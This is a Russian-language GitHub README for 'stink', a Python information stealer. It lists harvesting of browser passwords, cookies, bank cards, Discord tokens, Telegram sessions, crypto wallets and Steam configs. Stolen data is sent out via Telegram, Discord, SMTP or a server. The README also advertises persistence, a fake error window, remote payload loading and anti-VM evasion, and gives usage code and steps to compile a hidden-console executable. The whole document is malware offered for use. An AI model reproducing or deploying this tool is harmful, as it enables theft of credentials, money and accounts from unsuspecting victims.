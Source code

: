 # stink

Стиллер всего лишь в несколько строк с отправкой в Telegram / Server / Discord / SMTP. Без зависимостей, только встроенные библиотеки.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Описание
`stink` уже имеет внушительный функционал, который будет только расширяться.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
  * [Определённые модули](#Определённые-модули)
  * [Дополнительные параметры](#Дополнительные-параметры)
* [Создание exe](#Создание-exe)
  * [Создание исполняемого файла](#Создание-исполняемого-файла)
  * [С помощью BAT](#С-помощью-BAT)
  * [С помощью CMD](#С-помощью-CMD)

### Текущие возможности
1. Поддержка следующих браузеров:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
   - Yandex (Частично)
2. Сбор следующих данных:
   - Скриншот
   - Куки
   - Пароли
   - Банковские карты
   - История
   - Закладки
   - IP-адрес
   - Конфигурация системы
   - Активные процессы
   - Токены Discord
   - Сессии Telegram
   - Хосты FileZilla
   - Крипто кошельки:
       - Metamask
       - Phantom
       - Atomic
       - Exodus
       - Другие 10 кошельков
   - Конфиги Steam
3. Встроенные методы отправки:
   - Telegram
   - Server
   - Discord
   - SMTP
4. Поддержка мультипрофилей браузера.
5. Выполнение в отдельном потоке.
6. Выполнение с использованием многопроцессорности.
7. Возможность добавления в автозагрузку.
8. Вывод окна с фейковой ошибкой.
9. Выполнение без создания каких-либо файлов.
10. Подгрузка и запуск файлов по ссылке.
11. Прекращение работы на виртуальных машинах и при попытке дебаггинга.

## Пример использования
### Стандартный
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Определённые модули

Пример со сбором только системных данных и скриншота.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Дополнительные параметры

- `features` - список модулей из `stink.Features`:

  - `passwords` - сбор паролей.

  - `cookies` - сбор куки.

  - `cards` - сбор банковских карт.

  - `history` - сбор истории поиска.

  - `bookmarks` - сбор закладок.

  - `extensions` - сбор расширений браузера.

  - `processes` - сбор активных процессов.

  - `system` - сбор конфигурации системы.

  - `screen` - скриншот.

  - `discord` - сбор токенов Discord.

  - `telegram` – сбор сессий Telegram.

  - `filezilla` – сбор хостов FileZilla.

  - `wallets` – сбор крипто кошельков.

  - `steam` - сбор конфигов Steam.
  

- `utils` - список утилит из `stink.Utils`:

  - `autostart` - добавление в автозагрузку.

  - `message` - вывод фейкового [окна ошибки](https://github.com/FallenAstaroth/stink/wiki/Fake-error).
  

- `protectors` - список протекторов из `stink.Protectors`:

  - `processes` - проверка процессов на наличие программ для дебагинга и виртуальных машин.

  - `mac_address` - проверка MAC аддрессов на присутствие в чёрном списке.

  - `computer` - проверка названия PC на присутствие в чёрном списке.

  - `user` - проверка имени пользователя на присутствие в чёрном списке.

  - `hosting` - проверка находится ли PC на хостинге.

  - `http_simulation` - проверка на симуляцию HTTP.

  - `virtual_machine` - проверка на виртуальную машину.

  - `disable` - полное отключение всех проверок.


- `senders` - список способов отправки из `stink.Senders`:

  - `server` - отправка на [сервер](https://github.com/FallenAstaroth/stink/wiki/Server).

  - `telegram` - отправка в [Telegram](https://github.com/FallenAstaroth/stink/wiki/Telegram-bot).

  - `discord` - отправка в [Discord](https://github.com/FallenAstaroth/stink/wiki/Discord-hook).

  - `smtp` - отправка на [почту](https://github.com/FallenAstaroth/stink/wiki/Smtp).


- `loaders` - список подгрузчиков файлов из `stink`:

  - `Loader` - универсальный [подгрузчик](https://github.com/FallenAstaroth/stink/wiki/Files-loader).

## Создание exe
Python является интерпретируемым языком программирования, поэтому мы сначала транслируем его в C, а затем скомпилируем в .exe файл.
Для этого нам понадобится Nuitka.

### Создание исполняемого файла

1. [Скачиваем](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архив.
2. Распаковываем архив и переходим в директорию stink-master.
3. Создаем test.py (или любое другое название) файл в этой же директории со следующим кодом:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### С помощью BAT
1. Запускаем compiler.bat.

### С помощью CMD
1. Открываем `cmd`.
2. Прописываем команду:
```
pip install virtualenv
```
3. Переходим в папку с файлом `test.py`:
```
cd path\to\file
```
4. Создаем виртуальное окружение и активируем его:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Устанавливаем Nuitka:
````
pip install Nuitka==0.6.16.4
````
6. Для уменьшения размера файла дополнительно устанавливаем Zstandard (опционально):
```
pip install zstandard==0.17.0
```
7. Прописываем команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

После выполнения команды получаем test.exe файл со скрытой консолью.
